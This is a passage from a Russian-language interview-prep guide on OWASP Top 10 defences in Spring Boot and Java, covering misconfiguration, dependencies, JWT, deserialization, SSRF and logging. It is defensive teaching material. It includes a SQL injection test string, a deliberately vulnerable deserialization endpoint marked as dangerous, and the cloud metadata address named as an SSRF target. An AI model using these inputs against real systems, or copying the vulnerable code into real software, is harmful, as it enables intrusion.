    return permissions.getOrDefault(user, Set.of()).contains(resource);
}
```

**3. Complete Mediation** — каждый запрос проверяется:
```java
// Фильтр безопасности выполняется при КАЖДОМ запросе, не кэшируется
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    // Spring Security по умолчанию проверяет каждый запрос
    http.authorizeHttpRequests(auth -> auth.anyRequest().authenticated());
    return http.build();
}
```

**4. Least Privilege** — минимальные права:
```java
// БД-пользователь приложения — только SELECT/INSERT/UPDATE
// Миграции Flyway — отдельный пользователь с DDL правами
```

**5. Input validation at trust boundary:**
```java
// Валидация на входе в систему, не глубоко внутри
@PostMapping("/api/orders")
public Order createOrder(@RequestBody @Valid OrderRequest request) { ... }
```

---

## Q18. (!) Какие типичные ошибки конфигурации безопасности встречаются в Spring Boot?

`Security Misconfiguration` (`A05:2021`) — одна из самых частых причин инцидентов. Типичные проблемы в `Spring Boot`:

| Ошибка | Риск | Исправление |
|--------|------|-------------|
| `Actuator` эндпоинты открыты | Утечка env-переменных, секретов | `management.endpoints.web.exposure.include=health,info` |
| `H2 Console` в проде | Прямой доступ к БД | `spring.h2.console.enabled=false` в prod-профиле |
| `Swagger UI` в проде | Раскрытие API-контракта | Отключать через профиль |
| `CORS: allowedOrigins("*")` | Доступ с любого домена | Явный whitelist origin-ов |
| Дефолтные credentials | Полный доступ | Генерация уникальных паролей |
| `server.error.include-stacktrace=always` | Утечка внутренней структуры | `never` в проде |
| Debug-логирование в проде | Утечка данных через логи | `INFO` уровень в проде |

**Пример проблемы — Actuator:**
```yaml
# ОПАСНО: все actuator эндпоинты открыты
management:
  endpoints:
    web:
      exposure:
        include: "*"  # /actuator/env покажет секреты!
```

**Безопасная конфигурация:**
```yaml
management:
  endpoints:
    web:
      exposure:
        include: health,info,prometheus
      base-path: /internal  # не /actuator
  endpoint:
    health:
      show-details: when-authorized
    env:
      enabled: false  # отключаем полностью
```

## Q19. Как правильно настроить security headers?

Security headers — дешёвый и эффективный слой защиты. В `Spring Security`:

```java
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http.headers(headers -> headers
        // Запрет embedding в iframe (clickjacking)
        .frameOptions(frame -> frame.deny())
        // Запрет MIME-sniffing
        .contentTypeOptions(Customizer.withDefaults())
        // HSTS — принудительный HTTPS
        .httpStrictTransportSecurity(hsts -> hsts
            .includeSubDomains(true)
            .maxAgeInSeconds(31536000))
        // CSP — контроль загружаемых ресурсов
        .contentSecurityPolicy(csp -> csp
            .policyDirectives("default-src 'self'; script-src 'self'; " +
                              "style-src 'self' 'unsafe-inline'; img-src 'self' data:"))
        // Referrer Policy
        .referrerPolicy(referrer -> referrer
            .policy(ReferrerPolicyHeaderWriter.ReferrerPolicy.STRICT_ORIGIN_WHEN_CROSS_ORIGIN))
        // Permissions Policy
        .permissionsPolicy(permissions -> permissions
            .policy("camera=(), microphone=(), geolocation=()"))
    );
    return http.build();
}
```

Проверить headers можно через [securityheaders.com](https://securityheaders.com/).

## Q20. Как разделить конфигурацию между dev и prod?

Ключевой принцип: **prod-конфигурация должна быть secure by default**, dev-расширения включаются явно:

```yaml
# application.yml — общие настройки (безопасные по умолчанию)
spring:
  jpa:
    open-in-view: false
    show-sql: false

management:
  endpoints:
    web:
      exposure:
        include: health,info

---
# application-dev.yml — только для разработки
spring:
  config:
    activate:
      on-profile: dev
  h2:
    console:
      enabled: true
  jpa:
    show-sql: true

management:
  endpoints:
    web:
      exposure:
        include: "*"  # допустимо только в dev

---
# application-prod.yml
spring:
  config:
    activate:
      on-profile: prod
  datasource:
    url: ${DATABASE_URL}  # из переменных окружения
    username: ${DB_USER}
    password: ${DB_PASSWORD}

server:
  error:
    include-stacktrace: never
    include-message: never
```

> Секреты **никогда** не должны быть в `application.yml` — только из env-переменных, `Vault` или `Secret Manager` (см. Q37).

---

## Q21. (!) Как выявлять и управлять уязвимыми зависимостями?

`Vulnerable and Outdated Components` (`A06:2021`) — использование библиотек с известными `CVE`. Проблема часто **транзитивная**: уязвимость в зависимости зависимости.

**Инструменты для Java/Gradle:**

```groovy
// build.gradle — OWASP Dependency-Check
plugins {
    id 'org.owasp.dependencycheck' version '9.0.9'
}

dependencyCheck {
    failBuildOnCVSS = 7.0f  // fail на High и Critical
    formats = ['HTML', 'JSON']
    suppressionFile = 'owasp-suppressions.xml'  // false positives
}
```

```groovy
// Gradle — отображение дерева зависимостей для анализа
// ./gradlew dependencies --configuration runtimeClasspath
```

**Процесс управления:**



## Q22. Что такое SBOM и зачем он нужен?

`SBOM` (`Software Bill of Materials`) — полный перечень всех компонентов, включённых в приложение, с версиями и лицензиями. Аналог списка ингредиентов на упаковке продукта.

**Генерация SBOM в формате CycloneDX:**
```groovy
// build.gradle
plugins {
    id 'org.cyclonedx.bom' version '1.8.2'
}

cyclonedxBom {
    includeConfigs = ['runtimeClasspath']
    outputFormat = 'json'
    schemaVersion = '1.5'
}
// ./gradlew cyclonedxBom → build/reports/bom.json
```

Зачем нужен SBOM:
- **Быстрая реакция на CVE** — при появлении уязвимости в `Log4j` можно за секунды проверить, используется ли она
- **Compliance** — многие регуляторы (FDA, CISA) требуют SBOM
- **Лицензионный аудит** — выявление несовместимых лицензий
- **Supply chain transparency** — понимание, что именно входит в артефакт

## Q23. Как организовать SCA в CI/CD pipeline?

`SCA` (`Software Composition Analysis`) — автоматическая проверка зависимостей на уязвимости:

```yaml
# GitLab CI пример
dependency-check:
  stage: security
  script:
    - ./gradlew dependencyCheckAnalyze
  artifacts:
    paths:
      - build/reports/dependency-check-report.html
  allow_failure: false  # блокирует MR при критичных CVE

# Дополнительно — Trivy для контейнеров
container-scan:
  stage: security
  script:
    - trivy image --severity HIGH,CRITICAL --exit-code 1 $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
```

Ключевые практики:
- **Сканирование при каждом MR** — раннее обнаружение
- **Подавление false positives** — файл `owasp-suppressions.xml` с обоснованием
- **Мониторинг runtime** — новые CVE могут появиться после деплоя
- **Renovate/Dependabot** — автоматические MR на обновление зависимостей

---

## Q24. (!) Какие ошибки аутентификации наиболее опасны?

`Identification and Authentication Failures` (`A07:2021`) — ошибки, дающие злоумышленнику доступ под чужой учётной записью:

1. **Слабая политика паролей** — минимум 8 символов недостаточен, нужна проверка по словарям утечек
2. **Отсутствие `MFA`** — для критичных систем `MFA` обязателен
3. **Уязвимый password recovery** — предсказуемые токены, отсутствие rate limiting
4. **`Session fixation`** — сессия не пересоздаётся после логина
5. **Длинноживущие токены** — `JWT` без expiration или с expiration в неделю
6. **Отсутствие lockout** — неограниченные попытки ввода пароля
7. **Утечка информации** — «пользователь не найден» vs «неверный пароль» (подсказка атакующему)

```java
// ПЛОХО: раскрывает существование пользователя
if (user == null) throw new AuthException("User not found");
if (!matches(password)) throw new AuthException("Wrong password");

// ХОРОШО: единообразный ответ
if (user == null || !passwordEncoder.matches(password, user.getPassword())) {
    throw new BadCredentialsException("Invalid credentials");
}
```

Подробнее о паттернах аутентификации — в [[authentication-authorization-patterns-interview|вопросах по аутентификации]], о `OAuth2` — в [[oauth2-interview|вопросах по OAuth2]].

## Q25. Как защититься от brute force и credential stuffing?

**Rate limiting + progressive delay + account lockout:**

```java
@Service
@RequiredArgsConstructor
public class LoginProtectionService {

    private final Cache<String, LoginAttempts> attemptsCache;

    public void checkAndRecord(String username, String clientIp, boolean success) {
        String key = username + ":" + clientIp;
        LoginAttempts attempts = attemptsCache.get(key, k -> new LoginAttempts());

        if (attempts.isLocked()) {
            throw new AccountLockedException(
                "Account locked. Try again in " + attempts.getLockRemainingMinutes() + " min");
        }

        if (success) {
            attemptsCache.invalidate(key);
        } else {
            attempts.increment();
            // Progressive lockout: 5 попыток → блок 1 мин, 10 → 5 мин, 15 → 30 мин
            if (attempts.getCount() >= 15) {
                attempts.lockFor(Duration.ofMinutes(30));
            } else if (attempts.getCount() >= 10) {
                attempts.lockFor(Duration.ofMinutes(5));
            } else if (attempts.getCount() >= 5) {
                attempts.lockFor(Duration.ofMinutes(1));
            }
        }
    }
}
```

**Credential stuffing** — атака с использованием утёкших пар логин/пароль из других сервисов. Дополнительные меры:
- Проверка паролей по базе утечек (`HaveIBeenPwned` API)
- `CAPTCHA` после N неудачных попыток
- Детекция аномалий: новый IP, необычный User-Agent, массовые запросы

## Q26. Как безопасно управлять JWT-токенами?

`JWT` — распространённый механизм stateless-аутентификации, но с типичными ошибками:

| Ошибка | Последствие | Правильный подход |
|--------|------------|-------------------|
| `alg: none` | Токен без подписи принимается | Явно указывать допустимые алгоритмы |
| Хранение секретов в payload | Утечка данных | Минимум данных: `sub`, `roles`, `exp` |
| Длинный `exp` (дни/недели) | Невозможно отозвать | Access token: 15 мин, refresh: 7 дней |
| Секрет-подпись `"secret"` | Подделка токенов | RSA/EC ключи, минимум 256 бит |
| Нет `aud`/`iss` validation | Token confusion | Всегда проверять `audience` и `issuer` |

```java
// Безопасная конфигурация JWT в Spring Security
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
            .withPublicKey(rsaPublicKey)
            .build();

    // Валидация claims
    OAuth2TokenValidator<Jwt> validators = new DelegatingOAuth2TokenValidator<>(
        JwtValidators.createDefaultWithIssuer("https://auth.example.com"),
        new JwtClaimValidator<List<String>>("aud", 
            aud -> aud.contains("my-api")),
        new JwtTimestampValidator(Duration.ofSeconds(30)) // clock skew
    );
    decoder.setJwtValidator(validators);
    return decoder;
}
```

---

## Q27. (!) Что такое supply-chain атаки и как от них защищаться?

`Software and Data Integrity Failures` (`A08:2021`) — **новая категория**, покрывающая атаки на цепочку поставки ПО:



**Реальные примеры:**
- **`SolarWinds`** (2020) — компрометация build-системы, вредоносный код в обновлении
- **`Log4Shell`** (2021) — уязвимость в повсеместно используемой библиотеке
- **`Codecov`** (2021) — подмена bash-скрипта в CI/CD
- **`Dependency confusion`** — публичный пакет с именем внутреннего, npm/Maven берёт публичный

**Защита:**
- **Подпись артефактов** — GPG-подпись JAR-файлов, `Sigstore`/`cosign` для контейнеров
- **Проверка checksums** — `gradle --verify-metadata` с `verification-metadata.xml`
- **Private registry** — Nexus/Artifactory как proxy с контролем
- **Pinning версий** — точные версии вместо диапазонов (`1.2.3`, не `1.+`)
- **SBOM** — полный учёт всех компонентов (см. Q22)

## Q28. Чем опасна небезопасная десериализация в Java?

Небезопасная десериализация позволяет выполнить **произвольный код** на сервере через специально сконструированный объект:

**Уязвимый код:**
```java
// ОПАСНО: десериализация произвольного объекта из HTTP-запроса
@PostMapping("/api/import")
public void importData(@RequestBody byte[] data) {
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
    Object obj = ois.readObject(); // RCE через gadget chain!
    processData(obj);
}
```

**Защита:**

1. **Не использовать Java serialization** для внешних данных — использовать `JSON` (`Jackson`) или `Protobuf`
2. Если нужна Java serialization — **whitelist классов**:

```java
// ObjectInputFilter (Java 9+)
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(ObjectInputFilter.Config.createFilter(
    "com.myapp.dto.*;!*"  // только свои DTO, всё остальное — reject
));
```

3. **Jackson** тоже требует осторожности:
```java
ObjectMapper mapper = new ObjectMapper();
// ОПАСНО: включает полиморфную десериализацию
// mapper.enableDefaultTyping(); // НИКОГДА не делать

// Безопасно: явная аннотация только где нужно
@JsonTypeInfo(use = Id.NAME, property = "type")
@JsonSubTypes({
    @JsonSubTypes.Type(value = CreditCard.class, name = "credit"),
    @JsonSubTypes.Type(value = BankTransfer.class, name = "bank")
})
public abstract class PaymentMethod { }
```

## Q29. Как защитить CI/CD pipeline от компрометации?

CI/CD pipeline — привилегированная среда с доступом к секретам и деплою. Защита:

```yaml
# GitLab CI — принципы безопасного pipeline
stages:
  - build
  - security
  - test
  - deploy

build:
  stage: build
  script:
    - ./gradlew build -x test
  # Принцип: минимальные права у CI runner
  tags: [restricted-runner]

verify-signatures:
  stage: security
  script:
    # Проверка подписей зависимостей
    - ./gradlew --write-verification-metadata sha256
    - git diff --exit-code gradle/verification-metadata.xml

security-scan:
  stage: security
  script:
    - ./gradlew dependencyCheckAnalyze
    - trivy image --exit-code 1 $IMAGE
  # Разделение: security-сканирование — отдельный stage с отдельными правами
```

Ключевые практики:
- **Изоляция секретов** — CI-переменные доступны только нужным стадиям
- **Immutable runners** — runner пересоздаётся после каждой задачи
- **Protected branches** — деплой только с `main`, merge requires approval
- **Аудит изменений** — все изменения в `.gitlab-ci.yml` требуют ревью
- **Минимальные права** — deploy token имеет только `push` к registry

---

## Q30. (!) Что должна включать стратегия security-логирования?

`Security Logging and Monitoring Failures` (`A09:2021`) — если атака не записана и не алертится, инцидент обнаруживается слишком поздно. Средний TTD (Time to Detect) breach — **287 дней** (IBM Cost of Data Breach Report).

**Три компонента стратегии:**



**Критическое правило**: логирование без процесса реагирования почти бесполезно. Нужны алерты, runbooks и on-call.

## Q31. Какие события безопасности обязательно логировать?

**Обязательные security-события:**

```java
@Aspect
@Component
public class SecurityAuditAspect {

    private static final Logger auditLog = LoggerFactory.getLogger("SECURITY_AUDIT");

    // 1. Все попытки аутентификации (успешные и неуспешные)
    @AfterReturning("execution(* *.authenticate(..))")
    public void logSuccessfulAuth(JoinPoint jp) {
        auditLog.info("AUTH_SUCCESS user={} ip={} ua={}",
            getUsername(), getClientIp(), getUserAgent());
    }

    @AfterThrowing(pointcut = "execution(* *.authenticate(..))", throwing = "ex")
    public void logFailedAuth(JoinPoint jp, Exception ex) {
        auditLog.warn("AUTH_FAILURE user={} ip={} reason={}",
            getAttemptedUsername(jp), getClientIp(), ex.getMessage());
    }

    // 2. Отказы авторизации
    @AfterThrowing(pointcut = "@annotation(PreAuthorize)", throwing = "ex")
    public void logAccessDenied(JoinPoint jp, AccessDeniedException ex) {
        auditLog.warn("ACCESS_DENIED user={} resource={} method={}",
            getUsername(), getResource(jp), jp.getSignature().getName());
    }

    // 3. Чувствительные операции
    @Around("@annotation(AuditSensitive)")
    public Object logSensitiveOp(ProceedingJoinPoint jp) throws Throwable {
        auditLog.info("SENSITIVE_OP_START user={} operation={} params={}",
            getUsername(), jp.getSignature().getName(), sanitize(jp.getArgs()));
        try {
            Object result = jp.proceed();
            auditLog.info("SENSITIVE_OP_SUCCESS user={} operation={}",
                getUsername(), jp.getSignature().getName());
            return result;
        } catch (Exception e) {
            auditLog.error("SENSITIVE_OP_FAILURE user={} operation={} error={}",
                getUsername(), jp.getSignature().getName(), e.getMessage());
            throw e;
        }
    }
}
```

**Чего НЕ логировать:**
- Пароли, токены, секреты (даже замаскированные)
- PII без необходимости (GDPR)
- Полное тело запроса с чувствительными данными

## Q32. Как настроить алертинг на security-события?

Алертинг — ключевое отличие между «мы логируем» и «мы обнаруживаем атаки»:

```java
@Component
@RequiredArgsConstructor
public class SecurityAlertService {

    private final MeterRegistry meterRegistry;
    private final NotificationService notificationService;
    private final Cache<String, AtomicInteger> failedLoginCounter;

    @EventListener
    public void onAuthFailure(AuthenticationFailureEvent event) {
        String username = event.getAuthentication().getName();
        String ip = getClientIp();

        // Метрика для Prometheus/Grafana
        meterRegistry.counter("security.auth.failure",
            "username", username, "ip", ip).increment();

        // Детекция brute force — 10+ неудач за 5 минут
        AtomicInteger count = failedLoginCounter.get(ip, k -> new AtomicInteger(0));
        if (count.incrementAndGet() >= 10) {
            notificationService.sendAlert(
                AlertLevel.HIGH,
                "Brute force detected: 10+ failed logins from IP=" + ip);
        }
    }

    @EventListener
    public void onAccessDenied(AuthorizationDeniedEvent event) {
        // Алерт на попытку доступа к admin-ресурсам
        String resource = event.getSource().toString();
        if (resource.contains("/admin/")) {
            notificationService.sendAlert(
                AlertLevel.MEDIUM,
                "Admin access attempt by non-admin user");
        }
    }
}
```

Рекомендуемые метрики для дашбордов (подробнее в [[application-security-interview|вопросах по безопасности приложений]]):
- `security.auth.failure.rate` — аномальный рост = brute force
- `security.access_denied.rate` — аномальный рост = зондирование
- `security.input_validation.failure.rate` — аномальный рост = injection-попытки

---

## Q33. (!) Что такое SSRF и почему он попал в OWASP Top 10?

`SSRF` (`Server-Side Request Forgery`, `A10:2021`) — **новая категория**, когда злоумышленник заставляет сервер выполнять запросы к произвольным адресам, включая внутренние сервисы.

Попал в Top 10 из-за роста cloud-инфраструктуры: через SSRF атакующий добирается до **metadata endpoints** (`169.254.169.254` в AWS/GCP), получает IAM-токены и компрометирует всю инфраструктуру.



**Типы SSRF:**
- **Classic SSRF** — ответ внутреннего сервиса возвращается атакующему
- **Blind SSRF** — ответ не виден, но факт запроса детектируется (OOB)
- **Partial SSRF** — контроль только над частью URL (path, параметры)

## Q34. Как реализовать защиту от SSRF в Java?

Многоуровневая защита:

```java
@Service
public class SafeUrlFetcher {

    private static final Set<String> ALLOWED_SCHEMES = Set.of("http", "https");
    private static final Set<String> ALLOWED_HOSTS = Set.of(
        "api.github.com", "api.example.com");

    public String fetch(String urlString) {
        // 1. Валидация URL
        URI uri = validateUrl(urlString);
        
        // 2. DNS-резолюция и проверка IP
        InetAddress address = resolveAndValidate(uri.getHost());
        
        // 3. Запрос с таймаутами
        return executeRequest(uri);
    }

    private URI validateUrl(String urlString) {
        URI uri;
        try {
            uri = new URI(urlString);
        } catch (URISyntaxException e) {
            throw new IllegalArgumentException("Invalid URL");
        }

        // Проверка схемы
        if (!ALLOWED_SCHEMES.contains(uri.getScheme())) {
            throw new SecurityException("Scheme not allowed: " + uri.getScheme());
        }

        // Whitelist хостов (предпочтительно)
        if (!ALLOWED_HOSTS.contains(uri.getHost())) {
            throw new SecurityException("Host not allowed: " + uri.getHost());
        }

        return uri;
    }

    private InetAddress resolveAndValidate(String host) {
        try {
            InetAddress addr = InetAddress.getByName(host);

            // Блокировка приватных и служебных диапазонов
            if (addr.isLoopbackAddress()         // 127.0.0.0/8
                || addr.isSiteLocalAddress()      // 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16
                || addr.isLinkLocalAddress()      // 169.254.0.0/16 (metadata endpoint!)
                || addr.isAnyLocalAddress()) {    // 0.0.0.0
                throw new SecurityException("Access to internal networks is forbidden");
            }
            return addr;
        } catch (UnknownHostException e) {
            throw new SecurityException("Cannot resolve host");
        }
    }
}
```

**Сетевой уровень** (defense in depth):
- `Network Policy` в Kubernetes — ограничить egress трафик подов
- `VPC Security Groups` / firewall — запретить обращение к metadata endpoint
- `IMDSv2` в AWS — требует PUT-запрос с `X-aws-ec2-metadata-token` (защита от SSRF через GET)

---

## Q35. (!) Как встроить OWASP-проверки в SDLC и CI/CD?

OWASP-риски покрываются не одним пентестом, а системой автоматических и ручных проверок на каждом этапе:



**Практический CI/CD pipeline:**

| Стадия | Инструмент | Что проверяет | Блокирует MR? |
|--------|-----------|---------------|---------------|
| `SAST` | `SpotBugs` + `Find Security Bugs` | SQL injection, XSS, криптография | Да, на High |
| `SCA` | `OWASP Dependency-Check` | Уязвимые зависимости | Да, на CVSS ≥ 7.0 |
| `Secrets` | `gitleaks`, `trufflehog` | Утечка секретов в код | Да, всегда |
| `IaC` | `Checkov`, `tfsec` | Ошибки конфигурации | Да, на High |
| `Container` | `Trivy` | Уязвимости в образах | Да, на Critical |
| `DAST` | `OWASP ZAP` | Runtime-уязвимости | Нет (информационно) |

Важно определить **quality gates** — по severity и с возможностью policy exception с явным владельцем риска.

## Q36. Какие security-тесты обязательны перед релизом?

Минимальный набор security-тестов в Java-проекте:

```java
// 1. Тесты авторизации — positive + negative
@Test
void regularUser_cannotAccessAdminEndpoint() {
    mockMvc.perform(get("/api/admin/users")
            .with(user("regular").roles("USER")))
        .andExpect(status().isForbidden());
}

@Test
void admin_canAccessAdminEndpoint() {
    mockMvc.perform(get("/api/admin/users")
            .with(user("admin").roles("ADMIN")))
        .andExpect(status().isOk());
}

// 2. Тесты на IDOR
@Test
void user_cannotAccessOtherUsersData() {
    mockMvc.perform(get("/api/accounts/999")  // чужой аккаунт
            .with(user("user1").roles("USER")))
        .andExpect(status().isForbidden());
}

// 3. Тесты на injection
@Test
void sqlInjection_doesNotWork() {
    mockMvc.perform(get("/api/users")
            .param("search", "' OR '1'='1"))
        .andExpect(status().isBadRequest());
}

// 4. Тесты security headers
@Test
void securityHeaders_arePresent() {
    mockMvc.perform(get("/api/public/health"))
        .andExpect(header().string("X-Content-Type-Options", "nosniff"))
        .andExpect(header().string("X-Frame-Options", "DENY"))
        .andExpect(header().exists("Content-Security-Policy"));
}
```

Для критичных систем добавляют threat-based тесты по наиболее вероятным атакам из threat model (см. Q16).

## Q37. Как организовать безопасный секрет-менеджмент?

Секреты **не должны** храниться в коде, `application.yml`, Docker-образах или переменных окружения (env vars видны в `/proc`).

**Иерархия подходов (от простого к надёжному):**

| Подход | Плюсы | Минусы |
|--------|-------|--------|
| Env vars | Просто, нет в коде | Видны в `/proc`, нет аудита |
| `Spring Config Server` (encrypted) | Централизация | Ключ шифрования нужно где-то хранить |
| `HashiCorp Vault` | Ротация, аудит, lease | Сложность настройки |
| Cloud KMS (`AWS Secrets Manager`, `GCP Secret Manager`) | Managed, аудит, ротация | Vendor lock-in |

```java
// Spring Cloud Vault — динамические секреты БД
@Configuration
public class VaultConfig {
    // spring.cloud.vault.database.enabled=true
    // Vault генерирует временные DB credentials с TTL
    // При истечении — автоматическая ротация
}
```

Ключевые правила:
- Секрет **никогда** не попадает в git (настроить `pre-commit hook` с `gitleaks`)
- Секреты **разные** для каждого окружения (dev/staging/prod)
- **Ротация** — автоматическая, с минимальным TTL
- **Аудит** — кто, когда и к какому секрету обращался
- Минимизировать **время жизни** секрета в памяти приложения

## Q38. Как приоритизировать исправление уязвимостей?

Приоритет определяется **бизнес-контекстом**, не только `CVSS`:



**Факторы приоритизации:**
- **Exploitability** — есть ли публичный эксплойт?
- **Attack surface** — публичный API vs внутренний сервис
- **Data sensitivity** — финансовые данные vs публичный контент
- **Compensating controls** — WAF, network isolation, monitoring
- **Blast radius** — что будет скомпрометировано при эксплуатации

> Иногда «Medium» уязвимость в публичном API важнее «Critical» во внутреннем сервисе за VPN.

Практичный подход — **risk-based backlog** с SLA по severity и owner на каждую запись.

## Q39. Что такое Defense in Depth и как применять на практике?

`Defense in Depth` — принцип многоуровневой защиты, где каждый слой работает независимо. Если один слой пробит, следующий всё ещё защищает:



**Пример — защита API перевода денег:**

```java
// Слой 1: URL-авторизация (SecurityFilterChain)
.requestMatchers("/api/transfers/**").authenticated()

// Слой 2: метод-авторизация
@PreAuthorize("hasRole('USER') and #request.fromAccountId == authentication.principal.accountId")
public TransferResult transfer(TransferRequest request) { ... }

// Слой 3: бизнес-валидация
if (fromAccount.getBalance().compareTo(amount) < 0) {
